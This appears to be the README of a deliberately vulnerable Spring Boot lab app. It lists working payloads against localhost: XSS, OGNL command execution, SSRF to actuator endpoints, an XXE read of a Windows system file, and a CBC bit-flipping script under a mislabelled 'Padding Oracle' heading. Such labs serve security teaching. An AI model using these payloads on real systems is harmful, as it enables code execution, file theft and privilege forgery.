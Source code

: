 # SpringBoot-Vulnerable-Demo-2024
## XSS

[http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)


## Ongl
- [https://codeql.github.com/codeql-query-help/java/java-ognl-injection/](https://codeql.github.com/codeql-query-help/java/java-ognl-injection/)'
- [https://xz.aliyun.com/t/10482](https://xz.aliyun.com/t/10482)
- 
@java.lang.Runtime@getRuntime().exec("calc")

http://127.0.0.1:8080/ongl-vulnerable

http://127.0.0.1:8080/ongl-vulnerable?name=%22aaaa%22.length
http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Math@abs(-111)


http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Runtime@getRuntime().exec(%22calc%22)


https://github.com/orphan-oss/ognl/blob/main/src/main/java/ognl/OgnlRuntime.java
```java
    public static Object invokeMethod(Object target, Method method, Object[] argsArray)
            throws InvocationTargetException, IllegalAccessException {
        boolean syncInvoke;
        boolean checkPermission;
        Boolean methodAccessCacheValue;
        Boolean methodPermCacheValue;

        if (_useStricterInvocation) {
            final Class<?> methodDeclaringClass = method.getDeclaringClass();  // Note: synchronized(method) call below will already NPE, so no null check.
            if ((AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
                    (AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
                    (SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
                    (SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
                    AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
                    MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
                    MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
                    OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
                    Runtime.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
                    ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
                    AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)) {
                // Prevent calls to some specific methods, as well as all methods of certain classes/interfaces
                //   for which no (apparent) legitimate use cases exist for their usage within OGNL invokeMethod().
                throw new IllegalAccessException("Method [" + method + "] cannot be called from within OGNL invokeMethod() " +
                        "under stricter invocation mode.");
            }
        }

```

## SSRF

curl -X POST http://127.0.0.1:8080/ssrf-vulnerable -d "hostname=http://127.0.0.1:8080/actuator/metrics"

curl -X POST http://127.0.0.1:8080/ssrf -d "hostname=http://127.0.0.1:8080/actuator/metrics"

actuator
http://127.0.0.1:8080/actuator/metrics
http://127.0.0.1:8080/actuator/beans


## XXE

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///C:\\Windows\\system.ini'>]><root>&test;</root>

http://127.0.0.1:8080/xml-vulnerable?xml=%3Ctest%3EWorld%3C/test%3E

http://127.0.0.1:8080/xml-vulnerable?xml=%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20test%20SYSTEM%20%27file%3A%2F%2F%2FC%3A%5C%5CWindows%5C%5Csystem%2Eini%27%3E%5D%3E%3Croot%3E%26test%3B%3C%2Froot%3E

## Padding Oracle

https://www.nccgroup.com/us/research-blog/cryptopals-exploiting-cbc-padding-oracles/

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import base64
import requests


url = "http://127.0.0.1:8080"


def exploit():
    s = requests.Session()
    r = s.post(url + "/encrypt-vulnerable",
               data={"data": base64.b64encode(b"role=bdmin")})
    base64_bdmin_ciphertext_with_iv = r.json()["ciphertext"]
    raw_bdmin_ciphertext_with_iv = base64.b64decode(base64_bdmin_ciphertext_with_iv)
    iv = raw_bdmin_ciphertext_with_iv[0: 16]
    bdmin_ciphertext = raw_bdmin_ciphertext_with_iv[16:]

    # role=admin
    # 012345
    iv_list = list(iv)
    iv_list[5] = ord('a') ^ ord('b') ^ iv_list[5]

    payload = b""
    for _ in iv_list:
        payload += bytes.fromhex(format(_, '02x'))
    payload += bdmin_ciphertext

    r = s.post(url + "/decrypt-vulnerable",
               data={"data": base64_bdmin_ciphertext_with_iv})
    print(f"decrypted: {base64.b64decode(r.json()["plaintext"])}")

    r = s.post(url + "/decrypt-vulnerable",
               data={"data": base64.b64encode(payload)})
    print(f"exploited: {r.json()["plaintext"]}")


if __name__ == "__main__":
    exploit()
```